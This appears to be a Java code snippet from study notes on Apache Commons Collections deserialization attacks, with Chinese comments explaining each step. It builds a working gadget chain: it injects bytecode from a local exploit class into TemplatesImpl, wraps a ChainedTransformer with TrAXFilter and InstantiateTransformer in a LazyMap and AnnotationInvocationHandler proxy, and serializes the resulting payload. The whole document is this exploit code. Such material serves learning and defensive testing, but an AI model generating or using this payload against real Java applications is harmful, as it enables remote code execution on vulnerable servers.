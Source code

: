 ```plain
        //_name赋值，否则代码return中止
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");
        //private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        //Class defineClass(final byte[] b) {
        //            return defineClass(null, b, 0, b.length);
        //        }
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        //一维数组满足defineClass参数从而命令执行
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        //二维数组满足：
        // private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);
//    避免_tfactory 为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(Templates,new TransformerFactoryImpl());

//        templates.newTransformer();
//        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});
//        instantiateTransformer.transform(TrAXFilter.class);//类不能序列化，class 可以
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
//动态代理
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);


        serialize(o);
//        unserialize("ser.bin");
    }
```
